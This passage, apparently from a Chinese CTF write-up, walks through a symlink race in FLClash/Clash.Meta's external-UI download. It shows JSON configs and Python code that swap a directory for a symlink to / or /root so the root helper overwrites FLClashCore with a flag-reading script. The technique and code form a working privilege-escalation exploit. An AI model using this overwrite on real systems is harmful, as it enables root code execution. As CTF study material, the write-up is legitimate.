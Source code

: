 结果仍然报错 `Error downloading UI: cleanup exist file error: open /tmp/foobar: permission denied`，用 strace 查看发现是失败在了这里 `openat(AT_FDCWD, "/tmp/foobar", O_RDONLY|O_CLOEXEC|O_DIRECTORY) = -1 EACCES`，不是很明白问题原因，猜测这个路径本身不能是一个符号链接，于是选择让路径中间出现符号链接：

```json
{
    "external-ui": "foobar/etc",
    "external-ui-url": "http://127.0.0.1:7777/payload.zip"
}
```

```python
os.mkdir(f"{HOMEDIR}/foobar")
os.mkdir(f"{HOMEDIR}/foobar/etc")
...
# 在 HTTPHandler.handle 中：
os.rmdir(f"{HOMEDIR}/foobar/etc")
os.rmdir(f"{HOMEDIR}/foobar")
os.symlink("/", f"{HOMEDIR}/foobar")
```

这下确实没有在 openat 上报错了，但是仍然在后续清理过程（[[1]](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/component/updater/update_ui.go#L135), [[2]](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/component/updater/update_ui.go#L289)）中报错：`Error downloading UI: cleanup exist file error: unlinkat /tmp/foobar/etc/hostname: device or resource busy`。当时找了好久也没发现问题所在。直到二阶段时才意识到这是因为有些文件在容器里是挂载点，所以当然不能删掉。还尝试过进一步利用竞争条件，在 cleanup 过后再改变符号链接，不过不记得为什么也失败了。

我还尝试了不要让 `/tmp/foobar` 是符号链接，而是在 `/tmp/foobar/etc/shadow` 创建符号链接，但由于后续解压逻辑的 moveDir 使用 rename 覆盖（[component/updater/update_ui.go#L315](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/component/updater/update_ui.go#L315)）因此不起作用。然后还尝试让解压的临时路径和目标路径不在同一个文件系统，于是把 home_dir 放在 `/dev/shm` 上，迫使代码走 copyAll，但它内部在写文件时[会使用 `os.O_CREATE|os.O_EXCL`](https://github.com/chen08209/Clash.Meta/blob/168fc4232c86f80facbeef3e022db172b2f4da68/component/updater/update_ui.go#L358) 因此仍然不能写入符号链接。最终在一阶段我放弃了这题。

到了二阶段看到了提示，才发现我陷入了误区，为什么一定要覆盖 `/etc/shadow` 呢？提示说直接覆盖 `FLClashCore` 就好了，事实也确实如此。于是其实只需要稍微改变一下路径和 payload，把拥有可执行权限位的 getflag.sh 脚本以 FLClashCore 文件名打包进一个 payload.tar.gz 文件就行了。

```json
{
    "external-ui": "foobar/secure",
    "external-ui-url": "http://127.0.0.1:7777/payload.tar.gz"
}
```

```python
os.mkdir(f"{HOMEDIR}/foobar")
os.mkdir(f"{HOMEDIR}/foobar/secure")
...
# 在 HTTPHandler.handle 中：
os.rmdir(f"{HOMEDIR}/foobar/secure")
os.rmdir(f"{HOMEDIR}/foobar")
os.symlink("/root", f"{HOMEDIR}/foobar")
```

完成覆盖之后，再向 `helper` 的 HTTP 服务调用 `/stop` 和 `/start` 重启以执行脚本，然后调用 `/logs` 读取日志即可拿到 flag2。

